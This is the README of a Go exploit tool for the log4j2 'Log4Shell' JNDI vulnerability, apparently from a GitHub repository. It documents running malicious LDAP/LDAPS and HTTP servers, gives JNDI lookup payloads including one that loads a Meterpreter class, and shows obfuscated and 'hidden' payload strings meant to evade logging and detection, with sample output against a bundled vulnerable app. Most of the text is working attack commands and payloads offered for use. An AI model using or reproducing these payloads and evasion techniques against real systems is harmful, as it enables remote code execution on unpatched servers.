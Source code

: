 # Log4Shell
 [![GitHub Actions](https://github.com/For-ACGN/Log4Shell/workflows/Go/badge.svg)](https://github.com/For-ACGN/Log4Shell/actions)
 [![Go Report Card](https://goreportcard.com/badge/github.com/For-ACGN/Log4Shell)](https://goreportcard.com/report/github.com/For-ACGN/Log4Shell)
 [![GoDoc](https://godoc.org/github.com/For-ACGN/Log4Shell?status.svg)](http://godoc.org/github.com/For-ACGN/Log4Shell)
 [![License](https://img.shields.io/github/license/For-ACGN/Log4Shell.svg)](https://github.com/For-ACGN/Log4Shell/blob/master/LICENSE)\
 Check, exploit, obfuscate, TLS, ACME about log4j2 vulnerability in one Go program. 

## Feature
 * Only one program and easy deployment
 * Support common operating systems
 * Support multi Java class files
 * Support LDAPS and HTTPS server
 * Support ACME to sign certificate
 * Support obfuscate malicious(payload)
 * Hide malicious(payload) string
 * Add secret to protect HTTP server
 * Add token to fix repeat execute payload

## Usage
 ### Start Log4Shell server
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### Start Log4Shell server with TLS
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)

 ### Start Log4Shell server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)

 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/Calc}"
   ```
   ```
   raw: ${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}

   ${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-
   da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo
   @-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.m
   Q:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s
   :-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}

   Each string can only be used once, or wait 20 seconds.
   ```
   ```
   When obfuscate malicious(payload) string, log4j2 package will repeat execute it, the number
   of repetitions is equal the number of occurrences about string "${". The LDAP server add a
   simple token mechanism for prevent it. 
   ```
   
  ### Hide malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://127.0.0.1:3890/Calc}" -hide
   ```
   ```
   raw: ${jndi:ldap://127.0.0.1:3890/Calc$YG=.z[.od7rH0XpE}
   ```
   ```
   Execute VulApp:
   
   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>D:\Java\jdk1.8.0_121\bin\java -jar 
   vulapp.jar ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:
   -l}d${SaS-TmMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6B
   m:-}${W1eelS:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:
   5h=5SqK-p(X9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=
   ${*E-5M:-.z[}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC
   :.XYPyzv6-sPH.]*Ls:$@Q:-XpE}}
   ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:-l}d${SaS-T
   mMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6Bm:-}${W1eel
   S:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:5h=5SqK-p(X
   9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=${*E-5M:-.z
   [}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC:.XYPyzv6-s
   PH.]*Ls:$@Q:-XpE}}
   15:49:14.676 [main] ERROR log4j - XpE}

   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>
   ```
   ```
   The Logger will only record a part of raw string "15:49:14.676 [main] ERROR log4j - XpE}",
   and repeat execute will not appear(I don't know why this happened).
   ```

## Check
 * start Log4Shell server
 * send ```${jndi:ldap://1.1.1.1:3890/Nop}```
 * send ```${jndi:ldaps://example.com:3890/Nop}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/Meterpreter}```
 * send ```${jndi:ldaps://example.com:3890/Meterpreter}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/Calc}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -auto-cert
        use ACME client to sign certificate automatically
  -hide
        hide obfuscated malicious(payload) string in log4j2
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -no-token
        not add random token when use obfuscate
  -obf string
        obfuscate malicious(payload) string
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)
